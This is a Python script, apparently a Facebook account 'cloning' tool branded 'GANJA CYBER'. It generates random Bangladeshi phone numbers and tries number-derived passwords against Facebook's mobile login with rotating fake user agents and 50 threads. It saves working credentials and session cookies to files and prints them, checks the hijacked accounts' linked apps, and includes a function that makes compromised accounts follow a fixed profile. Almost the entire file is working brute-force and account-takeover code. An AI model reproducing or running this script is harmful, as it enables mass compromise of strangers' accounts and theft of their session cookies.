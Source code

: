 
import os,sys,time,json,random,re,string,platform,base64,uuid
os.system("git pull")
from bs4 import BeautifulSoup as sop
from bs4 import BeautifulSoup
import requests as ress
from datetime import date
from datetime import datetime
from time import sleep
from time import sleep as waktu
try:
    import requests
    from concurrent.futures import ThreadPoolExecutor as ThreadPool
    import mechanize
    from requests.exceptions import ConnectionError
except ModuleNotFoundError:
    os.system('pip install mechanize requests futures bs4==2 > /dev/null')
    os.system('pip install bs4')
    
def cek_apk(session,coki):
    w=session.get("https://mbasic.facebook.com/settings/apps/tabbed/?tab=active",cookies={"cookie":coki}).text
    sop = BeautifulSoup(w,"html.parser")
    x = sop.find("form",method="post")
    game = [i.text for i in x.find_all("h3")]
    if len(game)==0:
        print(f'\r%s[%s!%s] %sSorry there is no Active  Apk%s  '%(N,M,N,M,N))
    else:
        print(f'\r[] %s \x1b[1;95m  Your Active Apps      :{WHITE}'%(GREEN))
        for i in range(len(game)):
            print(f"\r[%s%s] %s%s"%(N,i+1,game[i].replace("Ditambahkan pada"," Ditambahkan pada"),N))
        else:
            print(f'\r %s[%s!%s] Sorry, Apk check failed invalid cookie'%(N,M,N))
    w=session.get("https://mbasic.facebook.com/settings/apps/tabbed/?tab=inactive",cookies={"cookie":coki}).text
    sop = BeautifulSoup(w,"html.parser")
    x = sop.find("form",method="post")
    game = [i.text for i in x.find_all("h3")]
    if len(game)==0:
        print(f'\r%s[%s!%s] %sSorry there is no Expired Apk%s           \n'%(N,M,N,M,N))
    else:
        print(f'\r[] %s \x1b[1;95m  Your Expired Apps     :{WHITE}'%(M))
        for i in range(len(game)):
            print(f"\r[%s%s] %s%s"%(N,i+1,game[i].replace("Kedaluwarsa"," Kedaluwarsa"),N))
        else:
            print('')

def follow(self, session, coki):
        r = BeautifulSoup(session.get('https://mbasic.facebook.com/profile.php?id=100015315258519', {
            'cookie': coki }, **('cookies',)).text, 'html.parser')
        get = r.find('a', 'Ikuti', **('string',)).get('href')
        session.get('https://mbasic.facebook.com' + str(get), {
            'cookie': coki }, **('cookies',)).text
            
            

class jalan:
    def __init__(self, z):
        for e in z + "\n":
            sys.stdout.write(e)
            sys.stdout.flush()
            time.sleep(0.009)
            
P = '\x1b[1;97m'
M = '\x1b[1;91m'
H = '\x1b[1;92m'
K = '\x1b[1;93m'
B = '\x1b[1;94m'
U = '\x1b[1;95m' 
O = '\x1b[1;96m'
N = '\x1b[0m'    
Z = "\033[1;30m"
sir = '\033[41m\x1b[1;97m'
x = '\33[m' # DEFAULT
m = '\x1b[1;91m' #RED +
k = '\033[93m' # KUNING +
xr = '\x1b[1;92m' # HIJAU +
hh = '\033[32m' # HIJAU -
u = '\033[95m' # UNGU
kk = '\033[33m' # KUNING -
b = '\33[1;96m' # BIRU -
p = '\x1b[0;34m' # BIRU +
asu = random.choice([m,k,xr,u,b])
my_color = [
 P, M, H, K, B, U, O, N]
warna = random.choice(my_color)
now = datetime.now()
dt_string = now.strftime("%H:%M")
current = datetime.now()
ta = current.year
bu = current.month
ha = current.day
today = date.today()
logo = (""" 
\033[38;5;46m  _   _ _______ ____  _____   
\033[38;5;46m         /\   | \ | |__   __/ __ \|  __ \  
\033[38;5;46m       /  \  |  \| |  | | | |  | | |__) | 
\033[38;5;46m     / /\ \ | . ` |  | | | |  | |  _  /  
\033[38;5;46m   / ____ \| |\  |  | | | |__| | | \ \  
\033[38;5;46m /_/    \_\_| \_|  |_|  \____/|_|  \_\ """)
def linex():
	print('\x1b[1;91m●\x1b[1;92m═━═━═━═━═━━═━═━═\x1b[1;91m❴\033[47m\033[1;46mGANJA \033[40m\033[00m\x1b[1;91m❵\x1b[1;92m═━═━═━━═━═━═━═\x1b[1;91m●')
loop = 0
oks = []
cps = []

def clear():
    os.system('clear')
    print(logo)
from time import localtime as lt
from os import system as cmd
ltx = int(lt()[3])
if ltx > 12:
    a = ltx-12
    tag = "PM"
else:
    a = ltx
    tag = "AM"
    
    
try:
    print('\n\n\033[1;33mLoading asset files ... \033[0;97m')
    v = 5.2
    update = ('5.2')
    update = ('5.2')
    if str(v) in update:
        os.system('clear')
    else:pass
except:print('\n\033[1;31mNo internet connection ... \033[0;97m')
#global functions
def dynamic(text):
    titik = ['.   ','..  ','... ','.... ']
    for o in titik:
        print('\r'+text+o),
        sys.stdout.flush();time.sleep(1)

#User agents
ugen2=[]
ugen=[]
 
for xd in range(10000):
    aa='Mozilla/5.0 (Linux; U; Android'
    b=random.choice(['3','4','5','6','7','8','9','10','11','12','13','14','15','16','17'])
    c=' en-us; GT-'
    d=random.choice(['A','B', 'C', 'D', 'E', 'F', 'G', 'H', 'I', 'J', 'K', 'L', 'M', 'N', 'O', 'P', 'Q', 'R', 'S', 'T', 'U', 'V', 'W', 'X', 'Y', 'Z'])
    e=random.randrange(1, 999)
    f=random.choice(['A','B', 'C', 'D', 'E', 'F', 'G', 'H', 'I', 'J', 'K', 'L', 'M', 'N', 'O', 'P', 'Q', 'R', 'S', 'T', 'U', 'V', 'W', 'X', 'Y', 'Z'])
    g='AppleWebKit/537.36 (KHTML, like Gecko) Chrome/'
    h=random.randrange(73,100)
    i='0'
    j=random.randrange(4200,4900)
    k=random.randrange(40,150)
    l='Mobile Safari/537.36'
    uaku2=(f'{aa} {b}; {c}{d}{e}{f}) {g}{h}.{i}.{j}.{k} {l}')
    ugen.append(uaku2)
    

def samiya(uid):
    if len(uid)==15:
        if uid[:10] in ['1000000000']       :shanto = ' (*-*) 2009'
        elif uid[:9] in ['100000000']       :shanto = '√ 2009'
        elif uid[:8] in ['10000000']        :shanto = '√ 2009'
        elif uid[:7] in ['1000000','1000001','1000002','1000003','1000004','1000005']:shanto = '√ 2009'
        elif uid[:7] in ['1000006','1000007','1000008','1000009']:shanto = ' 2010'
        elif uid[:6] in ['100001']          :shanto = '√ 2010/2011'
        elif uid[:6] in ['100002','100003'] :shanto = '√ 2011/2012'
        elif uid[:6] in ['100004']          :shanto = '√ 2012/2013'
        elif uid[:6] in ['100005','100006'] :shanto = '√ 2013/2014'
        elif uid[:6] in ['100007','100008'] :shanto = '√ 2014/2015'
        elif uid[:6] in ['100009']          :shanto = '√ 2015'
        elif uid[:5] in ['10001']           :shanto = '√ 2015/2016'
        elif uid[:5] in ['10002']           :shanto = '√ 2016/2017'
        elif uid[:5] in ['10003']           :shanto = '√ 2018/2019'
        elif uid[:5] in ['10004']           :shanto = '√ 2019/2020'
        elif uid[:5] in ['10005']           :shanto = '√ 2020'
        elif uid[:5] in ['10006','10007','']:shanto = '√ 2021'
        elif uid[:5] in ['10008']           :shanto = '√ 2022'
        elif uid[:5] in ['10009']           :shanto = '√ 2023'
        else:shanto=''
    elif len(uid) in [9,10]:
        shanto = ' √ 2008/2009'
    elif len(uid)==8:
        shanto = '√ 2007/2008'
    elif len(uid)==7:
        shanto = '√ 2006/2007'
    else:shanto=''
    return shanto
    
    
    
# APK CHECK
def xxr():
    user=[]
    twf =[]
    os.getuid
    os.geteuid
    os.system("clear")
    print(logo)
    print(f' \033[1;91m[\033[1;97m•\033[1;91m]\033[1;92m Example : {xr}019,017,018,92302,92301,91778{x}')
    print(" \x1b[1;91m●\x1b[1;92m═━═━═━═━═━━═━═━═\x1b[1;91m❴\033[47m\033[1;46mGANJA \033[40m\033[00m\x1b[1;91m❵\x1b[1;92m═━═━═━━═━═━═━═\x1b[1;91m●")
    rk1 = '0171'
    rk2 = '0172'
    rk3 = '0175'
    code = random.choice([rk1,rk2,rk3])                      
    pww = input(f' \033[1;91m[\033[1;97m•\033[1;91m]\033[1;92m Choose : ')
    os.system('clear')
    print(logo)
    limit = int(input(f' \033[1;91m[\033[1;97m•\033[1;91m]\033[1;92m EXAMPLE : 2000, 3000, 5000 \n \x1b[1;91m●\x1b[1;92m═━═━═━═━═━━═━═━═\x1b[1;91m❴\033[47m\033[1;46mGANJA \033[40m\033[00m\x1b[1;91m❵\x1b[1;92m═━═━═━━═━═━═━═\x1b[1;91m●PUT CLONING LIMIT: '))
    for nmbr in range(limit):
        nmp = ''.join(random.choice(string.digits) for _ in range(7))
        user.append(nmp)
    os.system("clear")
    print(logo)
    passx = 0
    HamiiID = []
    print("")
    for bilal in range(passx):
        pww = input(f"\033[1;91m[\033[1;97m•\033[1;91m]\033[1;92m Enter Password {bilal+1} : ")
        HamiiID.append(pww)
    with ThreadPool(max_workers=50) as manshera:
        clear()
        tl = str(len(user))
        print(f' \033[1;91m[\033[1;97m•\033[1;91m]\033[1;94m TOTAL IDS: {xr}'+tl)
        print(f'{x} \033[1;91m[\033[1;97m•\033[1;91m]\033[1;94m THE PROCESS HAS BEEN STARTED')
        print(f' \033[1;91m[\033[1;97m•\033[1;91m]\033[1;94m WORK CUNTRY \033[1;97m: \033[1;96mBANGLADESH')
        print(f' \033[1;91m[\033[1;97m•\033[1;91m]\033[1;94m TOOL OWNER \033[1;97m: \033[1;96mGANJA  CYBER')
        print(f' \033[1;91m[\033[1;97m•\033[1;91m]\033[1;94m USE NETWORK  \033[1;97m:  \033[1;96m2G, 3G, 4G, 5G ')
        print(f' \033[1;91m[\033[1;97m•\033[1;91m]\033[1;91m USE AEROPLANE MOOD IN EVERY 5 MIN ')
        print(f" \x1b[1;91m●\x1b[1;92m═━═━═━═━═━━═━═━═\x1b[1;91m❴\033[47m\033[1;46mGANJA \033[40m\033[00m\x1b[1;91m❵\x1b[1;92m═━═━═━━═━═━═━═\x1b[1;91m●")
        for love in user:
            pwx = [love[1:]]
            uid = code+love
            for Eman in HamiiID:
                pwx.append(Eman)
                pwx.append(love)
            manshera.submit(rcrack,uid,pwx,tl)
    print(f"\n{x} \x1b[1;91m●\x1b[1;92m═━═━═━═━═━━═━═━═\x1b[1;91m❴\033[47m\033[1;46mGANJA \033[40m\033[00m\x1b[1;91m❵\x1b[1;92m═━═━═━━═━═━═━═\x1b[1;91m●")
def rcrack(uid,pwx,tl):
    #print(user)
    global loop
    global cps
    global oks
    global proxy
    try:
        for ps in pwx:
            pro = random.choice(ugen)
            session = requests.Session()
            free_fb = session.get('https://mbasic.facebook.com').text
            log_data = {
                "lsd":re.search('name="lsd" value="(.*?)"', str(free_fb)).group(1),
            "jazoest":re.search('name="jazoest" value="(.*?)"', str(free_fb)).group(1),
            "m_ts":re.search('name="m_ts" value="(.*?)"', str(free_fb)).group(1),
            "li":re.search('name="li" value="(.*?)"', str(free_fb)).group(1),
            "try_number":"0",
            "unrecognized_tries":"0",
            "email":uid,
            "pass":ps,
            "login":"Log In"}
            #_____________𝙐𝙋𝘿𝘼𝙏𝙀👇👇𝙎𝙔𝙎𝙏𝙀𝙈_____________
            header_freefb = {'authority': 'mbasic.facebook.com',
           'method': 'GET',
           'path': '/login/device-based/login/async/',
           'scheme': 'https',
           'accept': 'text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7',
           'accept-language': 'en-US,en-IN;q=0.9,en-AI;q=0.8,en;q=0.7,hi-IN;q=0.6,hi;q=0.5',
           'cache-control': 'max-age=0',
           'sec-ch-prefers-color-scheme': 'light',
           'sec-ch-ua': '"(Not(A:Brand";v="99", "Chromium";v="115", "Google Chrome";v="115"',
           'sec-ch-ua-full-version-list': '"(Not(A:Brand";v="99.0.0.0", "Chromium";v="115.0.5750.194", "Google Chrome";v="115.0.5750.194"',
           'sec-ch-ua-mobile': '?0',
           'sec-ch-ua-platform': '"Linux"',
           'sec-ch-ua-platform-version': '""',
           'sec-fetch-dest': 'document',
           'sec-fetch-mode': 'navigate',
           'sec-fetch-site': 'none',
           'upgrade-insecure-requests': '1',
           'user-agent': 'Mozilla/5.0 (X11; U; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Ubuntu Chromium/115.0.5750.194 Chrome/115.0.5750.194 Safari/537.36',
           'viewport-width': '980',
}
            lo = session.post('https://mbasic.facebook.com/login/device-based/regular/login/?refsrc',data=log_data,headers=header_freefb).text
            log_cookies=session.cookies.get_dict().keys()
            if 'c_user' in log_cookies:
                coki=";".join([key+"="+value for key,value in session.cookies.get_dict().items()])
                cid = coki[7:22]
                print('\r\r\033[1;32m [GANJA -OK 🖕💉] ' +cid+ ' | ' +ps+    '  \n \033[1;33mCookie 🍪= \033[1;32m'+coki+  '  ''  \033[0;97m')
                cek_apk(session,coki)
                open('/sdcard/GANJA -OK.txt', 'a').write( uid+' | '+ps+'\n')
                oks.append(cid)
                break
            elif 'checkpoint' in log_cookies:
                coki=";".join([key+"="+value for key,value in session.cookies.get_dict().items()])
                cid = coki[24:39]
                #print('\r\r\33[1;31m [GANJA -CP💔] ' +uid+ ' | ' +ps+           '  \33[0;97m')
                open('/sdcard/GANJA -CP.txt', 'a').write( uid+' | '+ps+' \n')
                cps.append(cid)
                break
            else:
                continue
        loop+=1
        sys.stdout.write(f'\r\r%s {x}[{xr}GANJA{x}][%s|%s][OK:{xr}%s{x}]'%(H,loop,tl,len(oks))),
        sys.stdout.flush()
    except:
        pass

xxr()
